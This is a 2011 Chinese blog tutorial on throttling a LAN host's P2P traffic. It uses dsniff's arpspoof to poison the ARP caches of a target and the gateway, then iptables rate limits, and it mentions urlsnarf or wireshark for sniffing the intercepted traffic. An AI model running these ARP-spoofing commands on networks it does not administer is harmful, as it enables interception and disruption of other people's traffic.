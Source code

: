 ```yaml
---
author: admin
comments: true
date: 2011-11-07 19:16:51
layout: post
slug: linux-limit-p2p-ing-host
title: linux下限制局域网内部使用p2p软件的主机
wordpress_id: 1865
categories:
- 服务器
---
```


windows下有p2p终结者，linux下咱有dsniff，介绍：[here](http://monkey.org/~dugsong/dsniff/)，其的用途之一就是做arp欺骗，具体命令是arpspoof.

作用：
    
    arpspoof将局域网内的目标主机或者是所有主机的发送数据包通过ARP欺骗来重指向。<br></br>在使用交换机的局域网环境下是一个非常有效的方法来嗅探数据：)

注意：kernel的ip转发必须要提前打开

使用：
    
    arpspoof [-i interface] [-t target] host
    
    -i 用来指示要使用的网卡接口，一般是eth0,
    
    -t 用来指示要欺骗的目标主机，如果不表明则默认为局域网内部的所有主机
    
    host 你要截取数据包的主机，通常是网关

具体使用：

环境archlinux ,要限制的ip为192.168.0.29，本机ip为192.168.0.24,实验室网管为192.168.0.1

1 安装
    
    sudo pacman -S dsniff

2 开启内核转发和欺骗
    
    #echo 1 > /proc/sys/net/ipv4/ip_forward

#欺骗192.168.0.29，告诉这台机器网关192.168.0.1的MAC地址是自己(192.168.0.24)。
    
    $sudo arpspoof -i eth0 -t 192.168.0.29 192.168.0.1

#欺骗192.168.0.1，告诉网关192.168.0.29的MAC地址是自己(192.168.0.24)
    
    $sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.29

_192.168.0.29以为192.168.0.24就是192.168.0.1，192.168.0.1以为192.168.0.24就是192.168.0.29_

3 利用iptables开始限速

#192.168.0.29被限制每秒只能传输3个数据包了
    
    $sudo iptables -A FORWARD -s 192.168.0.29  -m limit --limit 3/s -j ACCEPT           <br></br>$sudo iptables -A FORWARD -d 192.168.0.29 -m limit --limit 3/s -j ACCEPT                  <br></br>$sudo iptables -A FORWARD -s 192.168.0.29  -j DROP                                                 <br></br>$sudo iptables -A FORWARD -d 192.168.0.29  -j DROP   

4 当然，如果你想干坏事的话可以用 urlsnarf 或者wireshark之类的。。。。恩

参考资料：

[http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html](http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html)

[http://www.yuanma.org/data/2006/0914/article_1536.htm](http://www.yuanma.org/data/2006/0914/article_1536.htm)
